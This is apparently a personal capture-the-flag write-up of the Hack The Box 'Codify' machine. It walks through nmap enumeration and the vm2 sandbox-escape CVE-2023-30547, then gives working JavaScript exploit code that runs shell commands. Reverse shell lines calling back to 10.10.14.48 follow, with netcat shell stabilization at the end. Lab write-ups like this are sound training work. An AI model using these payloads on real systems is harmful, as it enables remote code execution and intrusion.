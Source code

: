 # Enumeration

## NMAP
```
❯ sudo nmap -sCV -T4 10.10.11.239
[sudo] password for p3ta: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-13 12:47 PST
Nmap scan report for 10.10.11.239
Host is up (0.078s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://codify.htb/
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.89 seconds
```
## curl
Run curl to determin host name and enumate port 80
```
❯ curl 10.10.11.239
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://codify.htb/">here</a>.</p>
<hr>
<address>Apache/2.4.52 (Ubuntu) Server at 10.10.11.239 Port 80</address>
</body></html>
```

### Add codify.htb to /etc/hosts
```
echo -e "\n10.10.11.239 codify.htb" | sudo tee -a /etc/hosts
```
## Visiting the Web Page
![image](https://github.com/p3ta00/MasterNotes/assets/128841823/9f82b6d3-ee99-4221-9eb8-1f3fbe3022f6)

### Limitations of the tool
![image](https://github.com/p3ta00/MasterNotes/assets/128841823/9f8c4079-bc45-48ef-8171-9df1807241b1)

### About the editor
![image](https://github.com/p3ta00/MasterNotes/assets/128841823/4c28b75d-0984-45c9-be96-1cfd3ec7cc67)

### VM2 3.9.16
![image](https://github.com/p3ta00/MasterNotes/assets/128841823/b3353319-f975-4cc0-b92b-c057060efb65)

```
vm2	CVE-2023-30547	There exists a vulnerability in exception sanitization of vm2 for versions up to 3.9.16, allowing attackers to raise an unsanitized host exception inside handleException() which can be used to escape the sandbox and run arbitrary code in host context.	SeungHyun Lee
```
# Exploiting VM2
## POC
https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244

### Code
```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('id');
}
`

console.log(vm.run(code));
```
![image](https://github.com/p3ta00/MasterNotes/assets/128841823/4e7784ca-56ce-406d-bd2c-f8edc2cfa5ea)

### Reverse Shell Attempt
```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync("echo 'sh -i >& /dev/tcp/10.10.14.48/9001 0>&1' > shell");
}
`

console.log(vm.run(code));
```
My shell file made it
![image](https://github.com/p3ta00/MasterNotes/assets/128841823/82806d1d-9373-457d-bab9-3c2be807572a)

Make the file executable 
```
c.constructor('return process')().mainModule.require('child_process').execSync("chmod +x shell");
```
This RS did not work going to play around with the same idea though.

```
#! /bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.48/9001 0>&1'
```
To create the file run this twice
```
echo '#! /bin/bash' >> exploit.sh
echo bash -c "bash -i >& /dev/tcp/10.10.14.48/9001 0>&1" >> exploit.sh

```
execute the RS
```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('bash exploit2.sh');
}
`

console.log(vm.run(code));
```
### stabolize shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
svc@codify:~$ ^Z
[1]  + 124481 suspended  nc -lvnp 9001
❯ stty raw -echo; fg
[1]  + 124481 continued  nc -lvnp 9001

svc@codify:~$ export TERM=xterm
svc@codify:~$ 
```
